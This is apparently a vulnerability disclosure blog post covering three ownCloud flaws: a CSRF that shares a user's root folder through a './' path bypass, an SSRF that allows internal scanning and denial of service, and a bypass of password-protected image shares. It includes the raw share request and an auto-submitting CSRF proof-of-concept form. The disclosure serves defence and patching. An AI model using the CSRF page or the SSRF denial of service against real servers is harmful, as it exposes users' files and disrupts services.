## Introduction
During the research time in Hacktive Security I discovered several flaws in the [owncloud](https://owncloud.org/) product.

Owncloud is an open-source cloud service similar to Google Drive. It is a good and popular piece of software and it was strange that the last CVE was from the far 2017 (2 years ago).So, we started looking at it and we disclosed 3 vulnerabilities related to the file sharing context, for sure a good attack vector.

What I discovered could **compromise user's root folder** (read/write) via *CSRF*, cause an **authenticated Denial of Service** or **interact with local services** (*SSRF*) and **bypass password protected images**.

We reported all these issues in 17/10/2019, the ownCloud team fixed two of them after few months (SSRF and the bypass of protected images), but still do not have a patch for the reported CSRF. We tried to ping them multiple times and after 277 days since the first contact we decided to make them public (Disclosure Timeline at the end of the post).


## Compromise user’s root folder via CSRF

By exploiting a Cross-Site Request Forgery, it is possible to trick a user to share its whole **root folder** with another user or with a public link without authentication.

This is the vulnerable Request:

```c
POST /ocs/v2.php/apps/files_sharing/api/v1/shares?format=json HTTP/1.1
Host: mycloud.com:8081
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: ocqbn9pixyab=XXXX; oc_sessionPassphrase=XXXX
Content-Length: 52

shareType=0&shareWith=attacker&permissions=31&path=./

```

*Note: **owncloud doesn't let users share their own root folder**, you cannot do it via GUI and if you make a forged request with '/' to indicate the root folder, an error message appears:*



*This was not a big deal because It was easily bypassable just by using './' as a payload inside the 'path' parameter:*




The '**shareType**' indicates the type of sharing. In this case 0 means a share with another user specified in the **'shareWith'** parameter. A shareType 3 means a public share through a public link with 15 random characters. The entropy is too high to bruteforce and it is well implemented (this share type could be fine chaining an XSS). Last, but not least, **'permissions'** set to 31 means read and write permissions on the share.

Simulating an offensive scenario, this could be the attacker's page:

```html
<form name="csrf" enctype="application/x-www-form-urlencoded" method=POST action=https://TARGET/ocs/v2.php/apps/files_sharing/api/v1/shares?format=json>
    <input type=hidden name=shareType value="0">
    <input type=hidden name=shareWith value="ATTACKER">
    <input type=hidden name=permissions value="31">
    <input type=hidden name=path value="./">    
</form>

<script>
document.csrf.submit();
</script>

```

Victim visits the page:



And the root folder is shared with the attacker:




It would be cool to chain this vulnerability with a Cross-Site Scripting. Making a request from the same site doesn't trigger CORS, and the response is readable (in the response there is the public link). In this case, it could be just necessary to inject a script that makes a request to the vulnerable endpoint, read the response that contains the public link share, and send this one to the attacker. In this way, the whole root folder could be easily accessible from the internet and without authentication. But, sadly, this is not the case (and owncloud also employs a strict CSP). We only had a CSRF, so we could only perform blind POST requests.

This wannabe scenario is still possible with older browsers that do not support CORS validation or configured web server with too permissive policies. 


## Server Side Request Forgery + DOS

A convenient functionality is to fetch files from a public link to your own (own-)cloud. When you receive a public link and you want to save the file in your cloud, you can use the arrow at the top right and it will do the hard work for you:



In order to fetch the file, it has to know where you want to get the file, and it is specified in the following request :



From this parameter you can perform Server Side Requests to arbitrary local services, including the loopback:



If we try this request we receive a callback from localhost:



The docker provided from their official repository ships with Redis configured, that could be an interesting component to attack with our SSRF. In the first request we do not have many controllable parameters, just the URI (without CLRF). So we started to go deeper, because it has to make other requests in order to fetch a file from another cloud.

We started to analyze the flow between two valid clouds (thanks burp for the reverse proxy job) and we were right, we got multiple requests:



*(screen from ngrok - cleaner than burp requests)*

Maybe we could be lucky and find something more useful in later requests (some parameters are reflected from response of the receiver cloud).. But nope. That was a fail. After 2 days of fuzzing/implementation of a valid clone of an owncloud receiver in python (and ngrok in order to avoid caching of a target domain), we stopped because it was not the right path, and we were losing too much time for a potential Authenticated RCE valid only for some environments. And, unfortunately, we couldn't achieve RCE.

By the way, SSRF can be used to scan the internal network for open services and/or interact with them, but if it doesn't reach a couple of addresses .. you have a nice little Denial Of Service (tested on a production server).

Burp DOS configuration:





And few seconds later…



## Bypass password protected images

When you want to share to non authenticated users something in the cloud, you can use the 'Share with Public Link' option and protect it with a password in order to avoid other people watching it, if they eventually reach the link.

When sharing Images, the generated token (the 15 characters long narrowed before) can be used in the preview functionality without authentication, bypassing the required password.

The protected shared image:



Image leaked:



## Timeline
- 17/10/2019 - Issues reported
- 15/11/2019 - Request an update since we didn’t receive any reply
- 13/12/2019 - 2 of 3 vulnerabilities fixed
- 09/02/2020 - We requested an update for the third vulnerability
- 09/02/2020 - They’re working to patch it
- 13/07/2010 - No patch, we informed them that we are going to make them public
- 27/07/2020 - No reply, issues published